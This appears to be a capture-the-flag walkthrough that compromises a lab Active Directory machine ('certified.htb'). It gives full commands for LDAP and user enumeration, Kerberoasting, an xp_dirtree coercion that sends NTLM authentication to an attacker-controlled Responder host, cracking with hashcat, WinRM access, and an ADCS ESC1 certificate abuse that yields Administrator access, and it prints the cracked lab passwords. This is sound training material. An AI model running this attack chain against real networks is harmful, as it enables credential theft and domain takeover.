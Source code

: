 ___
Network recon
```bash
sudo nmap -T4 -A -v -o nmap --min-rate 1000 10.129.229.25 -Pn
```


Multi-protocol recon
```bash
enum4linux-ng -A 10.129.229.25
```
![](../../assets/Pasted%20image%2020250619151611.png)
We have anonymous LDAP access
### LDAP Enum
Get users:
```bash
ldapsearch -x -b "DC=certified,DC=htb" -s sub "(&(objectclass=user))" -H ldap://10.129.229.25 | grep -i samaccountname: | cut -f 2 -d " " > users.txt
```
Validate users:
```bash
kerbrute userenum -d certified.htb --dc 10.129.229.25 users.txt
```
![](../../assets/Pasted%20image%2020250619151753.png)
All users but guest are valid + all users require preauth for tickets requests. 
Getting users descriptions
```bash
nxc ldap 10.129.229.25 -u '' -p '' -M get-desc-users
```
We get a password
![](../../assets/Pasted%20image%2020250619151934.png)
### Movement to MSSQLSERVER
Lets check for users with SPNs set
```bash
ldapsearch -x -b "DC=certified,DC=htb" -s sub "(&(objectClass=user)(servicePrincipalName=*))" -H ldap://10.129.229.25 | grep -i samaccountname: | cut -f 2 -d " "
```
![](../../assets/Pasted%20image%2020250619152420.png)
user is kerberoastable! 
```bash
impacket-GetUserSPNs -dc-ip 10.129.229.25 certified.htb/ldapusr:'ldapisfun' -request-user MSSQLSERVER
```
![](../../assets/Pasted%20image%2020250619153206.png)
Try to crack the hash
```bash
hashcat -m 13100 mssqlserver.hash /usr/share/wordlists/rockyou.txt
```
![](../../assets/Pasted%20image%2020250619153349.png)
```
MSSQLSERVER:lucky7
```
### MSSQL Enumeration
```
nxc mssql 10.129.229.25 -u 'MSSQLSERVER' -p 'lucky7' -q 'SELECT name FROM master.dbo.sysdatabases;'
```
![](../../assets/Pasted%20image%2020250619154454.png)
```bash
impacket-mssqlclient MSSQLSERVER:'lucky7'@10.129.229.25 -windows-auth
```

We enumerate stored procedures and tables, we find out we can't run `xp_cmdshell` to get RCE. We can run `xp_dirtree` for force auth.
Start responder:
```bash
sudo responder -I tun0
```
Trigger auth:
```sql
xp_dirtree \\10.10.14.4\test
```
![](../../assets/Pasted%20image%2020250619160138.png)
Lets try to crack the NTLMv2 hash
```bash
hashcat -m 5600 thomas.hash /usr/share/wordlists/rockyou.txt
```
![](../../assets/Pasted%20image%2020250619160436.png)
```
thomas:159357
```
we have access with winrm
```bash
nxc winrm 10.129.229.25 -u thomas -p '159357'
```
![](../../assets/Pasted%20image%2020250619160709.png)
```bash
evil-winrm -i 10.129.229.25 -u thomas -p '159357'
```
after grabbing the user flag and poking around, i decided to run bloodhound
```bash
sudo bloodhound-ce-python -u 'thomas' -p '159357' -ns 10.129.229.25 -d certified.htb -c all
```
![](../../assets/Pasted%20image%2020250619165504.png)
We see `thomas` has inherited access to the `CERTIFICATE SERVICE DCOM ACCESS` group. This makes me think the priv esc is an ADCS misconfiguration
![](../../assets/Pasted%20image%2020250619165619.png)
### NT \AUTHORITY
---
Use certipy to find vulnerable templates
```bash
certipy-ad find -vulnerable -u thomas -p '159357' -dc-ip 10.129.229.25
```
![](../../assets/Pasted%20image%2020250619171052.png)
We see this template is vulnerable to ESC1
![](../../assets/Pasted%20image%2020250619171221.png)
Lets collect what we need for ESC1: Template name, CA, target domain.
![](../../assets/Pasted%20image%2020250619171545.png)
cant build our pfx request targeting the administrator user
```bash
certipy-ad req -u thomas -p '159357' -dc-ip 10.129.229.25 -template Auth -upn Administrator@certified.htb -ca CERTIFIED-CA -target certified.certified.htb
```
![](../../assets/Pasted%20image%2020250619171857.png)
We can either use the pfx directly with nxc:
```bash
nxc smb 10.129.229.25 --pfx-cert administrator.pfx -u 'Administrator'
```
![](../../assets/Pasted%20image%2020250619173218.png)
OR use `certipy auth` to get a TGS and NTLM hash
```bash
certipy-ad auth -pfx administrator.pfx -dc-ip 10.129.229.25
```
![](../../assets/Pasted%20image%2020250619173236.png)
and use that to auth.